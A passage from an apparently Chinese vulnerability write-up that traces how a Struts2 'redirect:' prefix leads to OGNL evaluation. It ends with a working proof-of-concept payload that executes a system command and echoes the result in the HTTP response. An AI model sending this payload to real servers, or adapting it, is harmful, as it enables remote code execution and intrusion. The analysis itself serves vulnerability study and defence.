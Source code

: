 下面以`redirect:`前缀为例子。

先说一下，这个漏洞的触发流程其实是在struts2运行主线的第一阶段，并没有到达第二阶段。什么意思呢，看下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b1f838d5911d37c6876ee7abfb9f790161728061.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b1f838d5911d37c6876ee7abfb9f790161728061.png)

如上图，这是一个正常的`action`请求的处理时序图。

首先第一阶段是对HTTP请求的预处理阶段。这个阶段主要由Struts2完成，其主要职责是与Web容器打交道，将HTTP请求处理成为普通的Java对象。&lt;br&gt;  
而第二阶段，则是XWork事件处理阶段。程序的执行控制权在此时交给了XWork框架，其主要职责是对请求进行核心逻辑处理。

为什么说这个漏洞的触发流程只是在struts2运行主线的第一阶段呢？来实际调试一下便知。

struts2接收到请求后，先到达`StrutsPrepareAndExecuteFilter#doFilter()`方法中，在该方法中，会根据`request`对象来获取`ActionMapping`对象，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ef6bfa466a4a7507e2819fed2eec58dabd7e7033.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ef6bfa466a4a7507e2819fed2eec58dabd7e7033.png)

在获取`ActionMapping`对象的过程中，会调用`DefaultActionMapper#handleSpecialParameters()`方法去处理特殊的参数  
，比如包含了`redirect:`、`redirectAction:`等前缀的参数，具体的处理动作在对应的`ParameterAction#execute()`方法里完成，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-34873641886acdae94c24388f33484bbaf7a692b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-34873641886acdae94c24388f33484bbaf7a692b.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-60e9cb7366aa8edb7b1ea701035e8a2e8d6fffda.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-60e9cb7366aa8edb7b1ea701035e8a2e8d6fffda.png)

可以看到，在`redirect:`前缀对应的处理动作中，往`ActionMapping`对象中放置了一个`Result`对象：`ServletRedirectResult`对象，并且将前缀后面的OGNL表达式字符串赋值给该`Result`对象的`location`属性中。

获取到`ActionMapping`属性后，随着运行主线的第一阶段，到达`Dispatcher#serviceAction()`方法。在该方法中，会判断在`ActionMapping`对象的`result`属性是否为`null`，如果为`null`，则进入运行主线的第二阶段。然而，前面已经在处理`redirect:`参数前缀时，将一个`ServletRedirectResult`对象赋值给了`ActionMapping`的`result`属性，所以这里不会进入第二阶段，而是直接开始调度`Result`对象。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d72342ed3d22e73159da9a03d5bc18411e271d66.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d72342ed3d22e73159da9a03d5bc18411e271d66.png)

继续跟进，看到了熟悉的`TextParseUtil.translateVariables()`方法。后面的方法执行流程就跟`S2-015:vuln-1`一样了，这里不再展开。

### 可回显PoC

```php
xxx.action?redirect:%{#context['xwork.MethodAccessor.denyMethodExecution']=false,
#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),
#f.setAccessible(true),
#f.set(#_memberAccess,true),
#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),
#wr=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#wr.println(#a),#wr.flush(),#wr.close()}
```
